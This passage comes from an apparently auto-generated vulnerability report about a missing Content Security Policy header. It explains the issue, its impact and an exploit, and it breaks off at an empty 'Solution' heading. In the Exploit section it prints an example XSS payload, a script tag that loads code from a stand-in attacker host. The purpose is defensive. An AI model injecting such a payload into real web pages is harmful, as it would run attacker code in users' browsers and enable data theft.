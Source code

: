 By following these steps and best practices, you can effectively remediate CSRF vulnerabilities and improve the security of your web applications.


---



### Content Security Policy (Csp) Header Not Set

**Issue:**

The vulnerability alert details the absence of a Content Security Policy (CSP) header, which is a security mechanism to mitigate various web-based attacks, including cross-site scripting (XSS) and data injection attacks.

CSP works by specifying a whitelist of sources from which the browser should load resources. This helps prevent the browser from executing malicious scripts or loading malicious resources from untrusted sources.

The root cause of the absence of CSP is typically a lack of configuration or implementation of CSP in the web server or application server.

CSP can be applied in various parts of the web stack:
- Web server: The CSP header is set in the HTTP response.
- Application server: The CSP header is set in the HTTP response.
- Load balancer: The CSP header is set in the HTTP response.

The direct security principle being violated is the principle of least privilege, as the browser is allowed to execute scripts from any source, which can lead to the execution of malicious code.


**Impact:**

The specific consequences of not having a CSP include:
- Execution of malicious scripts from untrusted sources.
- Loading of malicious resources from untrusted sources.
- Potential data theft, account takeover, or other attacks.


**Exploit:**

An attacker could exploit the absence of CSP by injecting malicious scripts into the application. For example, if the application includes user input in the response without proper sanitization, an attacker could inject a script like the following:

```html
<script src="http://malicious.com/malicious.js"></script>
```

When the user's browser renders the page, the malicious script would execute, potentially leading to the consequences mentioned above.

Common tools used for exploiting CSP bypass include:
- Burp Suite for intercepting and modifying HTTP requests
- OWASP ZAP for scanning and testing web applications
- CSP Evaluator for analyzing CSP policies


**Solution:**
